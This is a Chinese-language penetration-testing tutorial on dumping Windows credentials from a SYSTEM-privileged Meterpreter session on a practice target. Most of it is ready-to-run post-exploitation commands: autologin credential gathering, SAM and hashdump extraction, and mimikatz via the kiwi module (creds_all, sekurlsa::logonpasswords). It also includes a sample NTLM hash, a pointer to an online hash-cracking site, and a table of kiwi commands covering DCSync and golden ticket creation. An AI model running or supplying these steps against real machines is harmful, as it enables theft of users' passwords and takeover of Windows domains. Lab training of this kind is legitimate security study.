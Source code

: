 # 一、环境准备

1 MSF-Metasploit Framework

2 一台windiows靶机

# 二、实战

首先获得一个有**SYSTEM权限**的meterpreter

![1644493974746](https://image.201068.xyz/assets/1644493974746.png)

1 抓取自动登录账户密码

2 导出SAM数据库本地账户密码文件

3 导出密码哈希

4 使用kiwi模块获取

---

1  很多人喜欢给在计算机设置**自动登录** 我们可以通过抓取自动登录的账户密码

`run windows/gather/credentials/windows_autologin`

如果提示这证明本机并没有配置自动登录

![1644493985741](https://image.201068.xyz/assets/1644493985741.png)

2  还可以通过**导出SAM数据库**中的本地用户账号（注意需要提权到SYSTEM）

`run post/windows/gather/smart_hashdump`

![1644493996549](https://image.201068.xyz/assets/1644493996549.png)

| 用户名 | SID  | LM哈希:                          | NTLM哈希1:::                     |
| ------ | ---- | -------------------------------- | -------------------------------- |
| mb     | 1000 | aad3b435b51404eeaad3b435b51404ee | 32ed87bdb5fdc5e9cba88547376818d4 |

![1644494007420](https://image.201068.xyz/assets/1644494007420.png)

3  使用  **hashdump** 获取密码（注意需要提权到SYSTEM才能使用）

终端内输入  `run hashdump`

![1644494019182](https://image.201068.xyz/assets/1644494019182.png)

使用在线解析工具  https://www.cmd5.com/

NTLM哈希 例子：32ed87bdb5fdc5e9cba88547376818d4

![1644494029236](https://image.201068.xyz/assets/1644494029236.png)

4  使用**load kiwi**（使用kiwi模块需要system权限）

kiwi_cmd 模块可以让我们使用mimikatz的全部功能， mimikatz 的命令直接在kiwi_cmd里直接使用

5.1 终端输入  `load kiwi`

5.2 `creds_all`  直接获取密码

![1644494040171](https://image.201068.xyz/assets/1644494040171.png)

5.3 使用  `kiwi_cmd sekurlsa::logonpasswords`  获取密码

![1644494050257](https://image.201068.xyz/assets/1644494050257.png)

| ID   | kiwi参数和描述                                         |
| ---- | ------------------------------------------------------ |
| 1    | `creds_all`：列举所有凭据                              |
| 2    | creds_kerberos：列举所有kerberos凭据                   |
| 3    | creds_msv：列举所有msv凭据                             |
| 4    | creds_ssp：列举所有ssp凭据                             |
| 5    | creds_tspkg：列举所有tspkg凭据                         |
| 6    | creds_wdigest：列举所有wdigest凭据                     |
| 7    | dcsync：通过DCSync检索用户帐户信息                     |
| 8    | dcsync_ntlm：通过DCSync检索用户帐户NTLM散列、SID和RID  |
| 9    | golden_ticket_create：创建黄金票据                     |
| 10   | kerberos_ticket_list：列举kerberos票据                 |
| 11   | kerberos_ticket_purge：清除kerberos票据                |
| 12   | kerberos_ticket_use：使用kerberos票据                  |
| 13   | kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令 |
| 14   | lsa_dump_sam：dump出lsa的SAM                           |
| 15   | lsa_dump_secrets：dump出lsa的密文                      |
| 16   | `password_change`：修改密码                            |
| 17   | wifi_list：列出当前用户的wifi配置文件                  |
| 18   | wifi_list_shared：列出共享wifi配置文件/编码            |